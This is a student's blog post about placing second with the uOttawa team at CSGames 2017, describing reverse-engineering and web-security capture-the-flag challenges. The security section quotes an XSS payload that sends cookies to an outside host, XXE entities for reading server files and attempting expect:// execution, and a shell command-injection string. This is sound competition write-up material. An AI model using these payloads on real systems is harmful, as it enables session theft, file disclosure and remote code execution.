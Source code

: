 title: "CSGames - uOttawa 2nd place!"
keywords:
- competition
- CSGames
- security
- hacking
categories:
- events
tags:
- competition
- CSGames
- security
- hacking
thumbnailImage: https://images.fletchto99.com/blog/2017/april/csgames/thumbnail.png
date: 2017/4/10
---

A few weeks ago I got to participate in the 2017 edition of CSGames on the uOttawa Series A team. We managed to place second overall!

<!-- excerpt -->
{% image center clear https://images.fletchto99.com/blog/2017/april/csgames/banner.png %}

A few weeks ago I got to participate in the 2017 edition of CSGames on the uOttawa Series A team. We managed to place second overall! For those of you who are unfamiliar [CSGames](http://csgames.org/) is an annual coding competition which consists of many computer science related challenges. Universities across Canada (and some from the states) are allowed send up to 2 teams of 10 students to compete. The competition takes place over three days in which there are multiple challenges that contribute towards your team's overall score. Challenges usually consist of 2 team members sharing one computer and working together to come up with a solution. For a full list of the challenges from this year see the [2017 CSGames website](http://2017.csgames.org/#Competitions). Katherine was my partner in crime for the weekend since we both chose to work on the three security related challenges: Reverse Engineering, CSE, and Security.

{% image fancybox center clear https://images.fletchto99.com/blog/2017/april/csgames/1.jpg "Most of the participants in CSGames 2017" %}

# Reverse Challenge: Day 0x1

Upon arrival on friday night Katherine and I competed in our first challenge which was Reverse Engineering. The reverse engineering challenge had 3 questions, two which required reversing a binary file and the third was an encryption algorithm to which the key being used was lost. The first binary was a file server where the documentation was lost. The goal was to determine the credentials used and then create a client to interact with the server. While we were unable to create a fully working client we identified the credentials & commands the server accepted. If you attempted to patch the binary it would start printing errors saying "SRC GUARD 2017".

Next was the encryption algorithm with the lost key. The key was actually a png file however the algorithm only looked at the first few bytes of the file which actually means it was just constants within the PNG header to encrypt the file thus any PNG image could be used to decrypt it. Katherine and I actually never looked at this one since we were too focused on the other ones, one of my the Seed Round members told me how they solved this challenge afterwords. In hindsight I wish we took some time to look at this since it was easy points instead of just focusing on the other ones which were worth more points.

Finally the last and hardest question was to patch a password manager to spit out the password being stored. After initial inspection the password seemed to be printed when the manager was running on a specific hostname & after a specific time. We managed to patch the app however it printed out "cheater" since our patch didn't fully work. Katherine and I ended up placing 9th in this challenge which was to be expected since we didn't make that much progress.

# CSE Reverse challenge: Day 0x2

The next morning Katherine and I had the CSE challenge. The CSE challenge was essentially another reverse engineering challenge, only this time much more complex. For this challenge we were given 3 documents. The first was piece of paper a little larger than the size of a poster containing a bunch of a gates (upon further reading it was the instruction decoder for a custom CPU). The second was a high level diagram of the instruction decoder. Finally the last one was a "top secret" document containing the challenge. To go with all of this we were given an unknown ELF file.

By connecting the dots from the provided information Katherine and I realized that the elf file, after the 4096 bytes of the elf header, was a bunch of machine code containing instructions for this custom CPU. Our first goal was to create a disassembler to help us understand what was going on in this unknown binary. To build the disassembler we needed to manually trace which bits are active for each instruction in the CPU and then map that to the hex value specified by the machine code. This took much longer than expected however we did get a disassembler working!

After creating the disassembler it appeared to be crashing at an instruction which was not a part of the CPU instruction decoder spec and unfortunately we couldn't figure out why this was the case. After the competition was over I asked why and it turns out that the binary was actually storing an encrypted x86 binary within. The goal after a working disassembler was to decrypt the stored x86 binary and figure out what that binary was doing however we didn't make it that far.

Katherine and I were extremely happy with our progress in this challenge placing 4th. It was by far my favourite of the three challenges I participated in and I learned the most from it. This challenge (finally!) actually made use of something I learned in school. Analyzing a binary for an unknown architecture was kind of fun because there wasn't any plug and go solution or any tool that could give us the answer. We were required to do all of the work manually.

{% image fancybox fig-50 left https://images.fletchto99.com/blog/2017/april/csgames/2.jpg "CPU instruction decoder poster" %}
{% image fancybox fig-50 right https://images.fletchto99.com/blog/2017/april/csgames/3.jpg "Disassembler almost done!" %}

# Security Challenge: Day 0x3

The next morning was the [security challenge](https://github.com/ldionmarcil/CSG2017-security), my chance to shine! The premise of this challenge was to find vulnerabilities in a service called "What Time is it as a Service" or wtiiaas for short. I started off with a simple dirb which revealed a directory called `/old/` which shouldn't have been publicly accessible. In that directory there was an encrypted passwords file for an employee account along with the weak xor algorithm used. Essentially we just had to apply the xor algorithm on the file again to decrypt it. After that we were able to login to the employee portal. Once logged in there was a messaging system and an admin who would "respond right away" which was a clear indication of XSS. After a simple `<img src=x onerror=this.src='requestb.in/secret?cookie='+document.cookie />` we were able to dump the admin cookie and steal her session to get the next flag. This was as far as the admin system went so we had to find another target.

Our next target was the wtiiaas API. The API had 2 models: a free model which enabled the developer to send some XML with a free API key to request the current time and a premium model to request the current time with a specific format, however this required a premium API key. After few minutes it appeared that the free API was vulnerable to two attacks. The first being an XSS attack enabling me to exfiltrate files and the second was a SQL injection in the key parameter. Using the XSS I was able to dump the `/etc/passwd` file but not the `/etc/shadow/` file. However I was able to dump the entire API file by file to base64 using a payload similar to `<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/index.php" >]>` and then just following the system paths for the includes within the API.

The final part challenge was to get remote code execution on the server. My first thought was to just use an xxe to take control of the system via a crafted entity containing `[<!ENTITY foo SYSTEM "expect://<command>">]` however after multiple failed attempted I realized that the `expect://` command was disabled. So my next guess was that it had something to do with the API... and I was right! By dumping the API files earlier I was able to inspect the source and realize that the time was being retrieved using something like `exec('date')` within PHP. However the premium API allowed you to request a specific time format so it looked more like `echo "<response>".exec('/bin/sh -c \'date +"'.$format.'"\' 2>&1')."</response>";`. As you can see the format variable is being used so let's look at that: `$format = xml_attribute($action,"format");`. Thus the format variable is being retrieved directly from the XML, so a payload using the premium API could be crafted to execute arbitrary commands by inserting something like `%hh%mm%ss' && <command>` where <command> is the command you wish to run. After injection the API would even be kind enough to return the results to us. Unfortunately I didn't manage to dump the premium API key I was unable to exploit this vuln. It turns out getting the premium API key was done via a blind SQL injection in the user-agent header since there was a custom logging API which used this field. I never looked at the `logging.php` file even though I had dumped it...

Overall Katherine and I placed 6th in this challenge however I was quite disappointed with my performance in the securit challenge. I spent too much time trying to get RCE via `expect://` only to realize it was disabled. I also missed a simple SQL injection which could have gotten us quite a few more points. On top of that there was a [theoretical component](https://github.com/ldionmarcil/CSG2017-security/blob/master/Security-theoretical-EN.pdf) to which I only got 24.5 out of the possible 30 points. I did really poor on the theoretical security portion which is something I will be sure to practice more for next year.

# Results

What an awesome weekend! I learned so much about reverse engineering, patching binaries and analyzing unknown files. Unfortunately after all of our efforts Katherine and I didn't place top 3 for any of our individual challenges however Series A (the team we were on) ended up placing 2nd Overall! Originally we had placed 3rd during the competition but due to an error marking we were bumped up to second (0.03% behind first!). We ended up taking home a total of 8 medals this year across the two teams! I can't wait for next year when uOttawa will hopefully bring home the CS Cup! For the results of this year's CSGames you can checkout the [scoreboard](http://scoreboard.csgames.org) on the CSGames website. Oh also _note to self_: BRING SOME DRESS CLOTHING FOR THE BANQUET NEXT YEAR!

{% image fancybox center clear https://images.fletchto99.com/blog/2017/april/csgames/4.jpg "Receiving the 3rd place overall (later it was realized we got 2nd!)" %}

<!-- more -->
